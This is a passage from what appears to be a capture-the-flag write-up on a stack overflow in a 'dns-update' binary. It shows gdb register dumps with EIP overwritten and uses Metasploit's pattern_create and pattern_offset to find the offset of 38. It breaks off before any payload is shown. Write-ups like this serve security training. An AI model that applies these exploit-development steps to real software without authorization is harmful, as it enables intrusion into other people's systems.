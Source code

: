 ```
0x41414141 in ?? ()
(gdb) info reg
eax            0x0	0
ecx            0x0	0
edx            0xb7fb7878	-1208256392
ebx            0x41414141	1094795585
esp            0xbffff3c0	0xbffff3c0
ebp            0x41414141	0x41414141
esi            0x41414141	1094795585
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10282	[ SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

To control EIP we need to first determine how far into our input EIP is (the offset), we will use Metasploit's `pattern_create` to generate a non-repeating pattern that we can use to determine the correct offset into our input.

```
root@kali:~# /usr/share/metasploit-framework/tools/pattern_create.rb 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

We run `dns-update` in gdb again, but this time we use output from `pattern_create` as our input. We receive another Segmentation Fault and see that EIP has changed to `0x33624132`. We can then put this value into Metasploit's `pattern_offset` to get the offset of EIP in the generated string. We find that EIP is at `offset 38` of our input.

```
(gdb) r ecwi.cysca test 1.1.1.Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
ip address part 4 is invalid

Program received signal SIGSEGV, Segmentation fault.
0x33624132 in ?? ()
(gdb) info reg
eax            0x0	0
ecx            0x0	0
edx            0xb7fb7878	-1208256392
ebx            0x39614138	962675000
esp            0xbffff3c0	0xbffff3c0
ebp            0x62413162	0x62413162
esi            0x41306241	1093689921
edi            0x0	0
eip            0x33624132	0x33624132
eflags         0x10282	[ SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
```
```